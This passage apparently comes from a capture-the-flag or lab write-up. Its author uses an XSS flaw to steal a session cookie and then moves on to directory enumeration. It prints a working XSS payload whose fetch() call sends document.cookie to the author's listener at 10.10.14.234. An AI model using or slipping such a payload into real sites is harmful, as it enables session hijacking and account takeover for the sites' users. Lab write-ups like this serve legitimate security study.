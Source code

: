 The website is setting a cookie… Maybe we can use the XSS to try to grab the session cookie?

Th`<script>fetch('http://10.10.14.234?cookie=' + btoa(document.cookie) );</script>`

Let’s open a http server in our machine and send the payload:

![Untitled](images/Untitled%208.png)

![Untitled](images/Untitled%209.png)

I have set the value of the cookie with the one obtained by the script but nothing happened after reloading the page. Let’s enumerate the directories:

![Untitled](images/Untitled%2010.png)
